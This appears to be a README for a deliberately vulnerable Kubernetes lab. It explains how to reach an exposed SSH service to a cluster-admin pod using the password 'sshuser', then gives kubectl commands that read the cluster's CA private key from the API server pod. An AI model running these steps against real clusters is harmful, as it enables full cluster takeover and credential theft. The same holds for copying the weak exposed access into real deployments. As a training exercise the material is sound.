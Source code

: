 ## SSH to Cluster Admin

This cluster has an exposed SSH service running on port 32001/TCP to a pod in the cluster with cluster-admin rights.  To test this run

- `ansible-playbook ssh-to-cluster-master.yml`

Then get a note of the IP address of the Kubernetes cluster with 

```
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' sshcm-control-plane
```

Connect to your client container

```
docker exec -it client /bin/ash
```

and from there

```
ssh -p 32001 sshuser@[Kubernetes Cluster IP]
```

The password for the sshuser account is `sshuser`

## Compromising the cluster

1. `kubectl get po -n kube-system` will get the pod list for kube-system
2. `kubectl -n kube-system exec [API_SERVER] cat /etc/kubernetes/pki/ca.key`
3. profit!
